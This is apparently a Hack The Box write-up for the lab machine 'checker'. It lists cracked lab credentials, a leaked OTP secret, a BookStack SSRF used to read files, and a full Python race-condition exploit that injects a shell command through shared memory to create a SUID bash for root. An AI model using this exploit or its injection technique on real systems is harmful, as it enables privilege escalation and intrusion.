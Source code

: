 ```yaml
---
layout: post
title: HTB - checker
date: 2025-05-27 17:17 -0400
---
```


{{ 'checker' | machine_img }}

## nmap
```bash
[sudo] password for shafou:
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-24 10:36 -04
Nmap scan report for checker.htb (10.10.11.56)
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 aa54074198b811b07845f1ca8c5a942e (ECDSA)
|_  256 8f2bf3221e743bee8b40176c6cb1939c (ED25519)
80/tcp   open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
8080/tcp open  http    Apache httpd
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: 403 Forbidden
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.86 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-24 10:37 -04
Warning: 10.10.11.56 giving up on port because retransmission cap hit (10).
Nmap scan report for checker.htb (10.10.11.56)
Host is up (0.16s latency).
All 65535 scanned ports on checker.htb (10.10.11.56) are in ignored states.
Not shown: 65457 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 73.81 seconds
```

## subdomain bruteforce
Some rate limiting happening, 100 requests then have to sleep for 5 seconds.

## vault.checker.htb - 8080
Teampass is used to manage password, it has a lot of cves.
![checker.htb](/assets/img/checker9.png)

The first one worked thankfully and we crack bob hash:
- bob:cheerleader


There are two accounts there, one for bookstack and other for ssh.

bookstack:
- bob@checker.htb:mYSeCr3T_w1kI_P4sSw0rD

ssh:
- reader:hiccup-publicly-genesis

ssh needs a otp code for it to work.

## checker.htb - 80
The main site is using bookstack, which is kinda like a wiki. Written in php. Uses version: v23.10.2, according to a css file. Seems to be vulnerable to a SSRF (CVE-2023-6199). The regular poc doesn't work, but it does work with [filter_chains](https://github.com/synacktiv/php_filter_chains_oracle_exploit). Very slow retrieval.

![checker.htb](/assets/img/checker8.png)

One of the books has a hint about `/backup/home_backup/`. We can read .google_authenticator from there `/backup/home_backup/home/reader/.google_authenticator` then we use the secret to generate a otp token.
- [otp generator](https://it-tools.tech/otp-generator)

/backup/home_backup/home/reader/.google_authenticator
- DVDBRAODLCWF7I2ONA4K5LQLUE

![otp code](/assets/img/checker3.png)

```bash
reader@checker:~$ cat user.txt
5221d49d5b46097616fdf5c0a324406f
```

# root
```bash
reader@checker:~$ sudo -l
Matching Defaults entries for reader on checker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User reader may run the following commands on checker:
    (ALL) NOPASSWD: /opt/hash-checker/check-leak.sh *

#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"
```

check_leak is a custom binary. Checking it in ghidra it tries to compare the hashes on a db to the leaked hashes on a file. The most interesting part is that it is calling `popen` with mysql.

![popen call](/assets/img/checker6.png)

If we can get control of that string its an easy rce. The string is passed to the binary through shared memory. The thing about shared memory is that anyone can write to it. So the vulnerability is a race condition, the idea is to open a shmem with the flags that we want, let the script write to it and then update the shmem with our payload after some checks have passed. That is a pretty big gap for it actually.

poc:
```python
from ctypes import CDLL, c_char, c_int, c_void_p, memmove, create_string_buffer, addressof
import time
import datetime
import threading
import subprocess

dt = datetime.datetime.now()
local_dt = dt.replace(tzinfo=datetime.timezone.utc).astimezone()
timestamp = int(local_dt.timestamp())

libc = CDLL("libc.so.6")
libc.srand(timestamp)

key = libc.rand() % 0xfffff
print(hex(key))

SIZE = 0x400
IPC_CREAT = 0o1000
IPC_EXCL = 0o2000
PERM = 0o777

shmid = libc.shmget(key, SIZE, IPC_CREAT | IPC_EXCL | PERM)
print(f"{hex(shmid)}")

libc.shmat.restype = c_void_p
addr = libc.shmat(shmid, None, 0)
if addr == 0xffffffffffffffff:
    raise Exception("shmat failed")

target_addr = c_void_p(addr)
str_ptr = create_string_buffer(400)
data = b'Leaked hash detected at Thu Apr 10 01:19:45 2025 > "\'; cp /bin/bash /tmp/123; chmod +xs /tmp/123; echo \'//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
memmove(addressof(str_ptr), data, len(data))

def do_memmove(target, source):
    memmove(target, source, len(source))

def run_script():
    subprocess.run("sudo /opt/hash-checker/check-leak.sh 'bob'", shell=True)

move = threading.Thread(target=do_memmove, args=(target_addr, str_ptr))
script = threading.Thread(target=run_script)

script.start()
time.sleep(0.5)
move.start()

script.join()
move.join()

buffer = (c_char * 400).from_address(addr)
data = bytes(buffer)

print("[+] Dumped shared memory contents:")
print(data)

libc.shmdt(c_void_p(addr))
```

```bash
# /tmp/123 -p
123-5.1# cat /root/root.txt
8b0175f18c7ae4263809a66c5c154aea
```
